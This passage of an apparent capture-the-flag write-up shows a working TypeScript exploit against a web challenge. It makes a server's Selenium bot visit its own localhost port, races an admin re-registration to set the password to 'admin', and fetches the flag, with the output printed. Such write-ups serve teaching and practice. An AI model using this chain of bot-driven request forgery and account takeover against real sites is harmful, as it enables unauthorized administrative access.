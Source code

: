 ```python
    threading.Thread(target=visit_site, args=(target,), daemon=True).start()
    return build_response(f"Spawning Selenium bot to visit: {target}")
```

Here's our attack vector.

```python
HOST = "0.0.0.0"
PORT = 8080
```

Our python web server is hosted on port `8080`, so we can make a request
to the web server by asking the bot to visit `http://localhost:8080/`!

## Attack

```typescript
// Instance URL given by the instancer.
const url = "http://34.72.72.63:41710";

{
  // 1. make the bot visit the web server locally
  const target = "http://localhost:8080/";

  const res = await fetch(url + "/visit", {
    method: "POST",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
      "X-Target": target,
    },
    body: "url=" + encodeURIComponent(target),
  });

  const text = await res.text();
  console.log("[visit]:", text);

  // wait for the bot to visit the website!
  await new Promise((r) => setTimeout(r, 1000));
}

{
  // 2. send immediately a request to /register to exploit the race condition
  const res = await fetch(url + "/register", {
    method: "POST",
    headers: {
      "x-username": "admin",
      "x-password": "admin", // modify the password to `admin`
    },
  });

  const text = await res.text();
  console.log("[register]:", text);

  // NOTE: if we get access denied, we should increase/reduce the timeout of the bot.
  if (text === "Access denied") process.exit(1);
}

{
  //  3. get the flag with the new admin credentials!
  const res = await fetch(url + "/flag", {
    headers: {
      authorization: "Basic " + btoa("admin:admin"),
    },
  });

```

[visit]: Spawning Selenium bot to visit: http://localhost:8080/
[register]: User 'admin' registered successfully!
[flag]: <pre>ictf{oops_ig_my_webserver_is_just_ai_slop_b9f415ea}